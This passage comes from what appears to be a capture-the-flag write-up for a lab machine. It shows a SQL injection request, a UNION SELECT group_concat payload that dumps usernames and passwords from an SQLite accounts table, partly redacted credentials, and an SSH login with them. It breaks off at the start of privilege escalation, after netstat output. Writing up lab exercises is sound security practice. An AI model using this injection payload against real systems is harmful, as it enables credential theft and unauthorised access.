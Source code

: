 ```json
```
##### Result
```json
  "responses": [
    {
      "message": {
        "message": "CREATE TABLE \"accounts\" (\n\tusername TEXT UNIQUE,\n\tpassword TEXT\n)"
      },
      "isError": false
    }
  ],
```

#### SQLlite get columns
Getting the values of the `username` and `password` columns from the table `accounts`.
##### Request
```json
"data":[{"id":"0 union SELECT group_concat(username || \":\" || password || \",\") from accounts"}]
```
##### Result
```json
  "responses": [
    {
      "message": {
        "message": "admin:admin,,s**REDACTED**u:He**REDACTED**31,,t**REDACTED**n:1**REDACTED**4,"
      },
      "isError": false
    }
  ],
```

We can use the username and password we found to `ssh` into the server.

```bash
$ ssh sau@10.10.11.214                                 
sau@pc:~$ ls
user.txt
sau@pc:~$ cat user.txt
42d**REDACTED**1be
```

## Privilege Escalation
Checking for open ports we noticed `8000` is open.
```bash
sau@pc:/tmp$ netstat -ntpl
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:9666            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::50051                :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -   
```
